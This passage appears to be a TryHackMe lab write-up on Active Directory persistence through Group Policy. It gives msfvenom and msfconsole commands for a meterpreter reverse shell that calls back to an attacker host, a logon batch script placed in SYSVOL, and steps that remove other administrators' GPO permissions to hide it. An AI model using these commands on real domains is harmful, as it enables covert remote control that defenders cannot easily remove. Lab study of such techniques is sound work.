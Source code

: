- We will get Full Control
---------------------------------------------------------------------------------
- We can add persistense using GPOs as well
- We can create a shell to call back at every logon
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > cryptoace_shell.exe
```

- Now we can create a batch script that will copy the shell and execute it on logon
```bash
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\cryptoace_shell.exe C:\tmp\cryptoace_shell.exe && timeout /t 20 && C:\tmp\cryptoace_shell.exe
```

- We can add it using `scp`
```bash
scp cryptoace_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

scp cryptoace.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

- Now we can start a listener
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit -j"
```

- Now we will need to use `runas` to admin command prompt to set up GPOs
```bash
runas /netonly /user:Administrator cmd.exe
```

- We will open `mmc` and add `Group Policy Management` Snap-In
- Found the Admin OU and added a GPO in it
- Right-click on your policy and select Enforced
- Now edited
```bash
Under User Configuration, expand Policies->Windows Settings.
Select Scripts (Logon/Logoff).
Right-click on Logon->Properties
Select the Scripts tab.
Click Add->Browse.
```

- Added the path `C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`
- Now at every logon (Sign in) we will get a callback
- We can change password and test it too
- Now we can hide it
- In the `Admins` group go to delegation
- By default, all administrators have the ability to edit GPOs. Let's remove these permissions:
    1. **Right-Click** on **ENTERPRISE DOMAIN CONTROLLERS** and select **Edit settings, delete, modify security**.
    2. **Click** on all other groups (except Authenticated Users) and click **Remove**.

- Now its hard to find or kill
---------------------------------------------------------------------------------

PWNEDD!!!